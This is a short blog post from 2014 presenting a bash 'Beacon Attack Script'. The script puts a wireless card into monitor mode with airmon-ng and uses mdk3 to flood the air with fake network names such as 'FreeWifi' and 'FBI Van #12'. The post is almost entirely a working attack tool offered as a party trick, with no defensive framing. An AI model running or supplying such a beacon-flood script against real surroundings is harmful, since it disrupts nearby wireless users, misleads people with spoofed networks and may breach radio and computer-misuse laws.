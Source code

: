 ﻿---
layout: post
title:  Beacon Attack Script
date:   2014-05-20 00:00:00 -0500
categories: IT
---






Using MDK3 to create a bunch of fake wireless networks is a neat party trick. This bash script will create a text file with a list of network names, defined in a the "networks" array, if it doesn't already exist.

Then the script will configure the interface by putting it in monitor mode. Finally the script will fire off MDK3 using the text file created earlier.

You must have aircrack and mdk3 installed.
{% highlight powershell %}networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
{% endhighlight %}



